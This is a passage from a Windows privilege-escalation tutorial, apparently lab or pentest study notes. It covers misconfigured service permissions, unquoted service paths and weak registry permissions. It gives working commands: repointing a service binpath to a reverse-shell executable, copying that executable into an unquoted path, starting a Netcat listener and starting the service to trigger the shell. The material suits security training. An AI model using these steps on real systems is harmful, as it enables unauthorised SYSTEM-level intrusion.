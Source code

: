 ```
sc config daclsvc binpath= "\"C:\..\reverse.exe\""
```

3\. Fire up a Netcat listener in Kali

```
nc -lnvp 53
```

4\. Start the service, once started, this will trigger the reverse shell payload in the new binary path.

```
net start daclsvc
```

### Unquoted Service Path

Executables in Windows can be run without their extension like in Linux.

Essentially, look for a directory where spaces are being used and quotes are not.

This can lead to ambiguity within the Windows environment and we can trick Windows into doing something it shouldn't.

1. Access check on service

```
.\accesschk.exe /accepteula -ucqv user unquotedsvc

.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

2\. Copy reverse shell to this directory

```
copy reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

3\. Fire up a Netcat listener on Kali

```
nc -lnvp 53
```

4\. Start the service

```
net start unquotedsvc
```

### Weak Registry Permissions

The Windows registry stores entries for each service.

How to detect this:

WinPEAS

```
Looking if you can modify any service registry
HKLM\system\currentcontrolset\services\regsvc (Interactive [TakeOwnership])
```
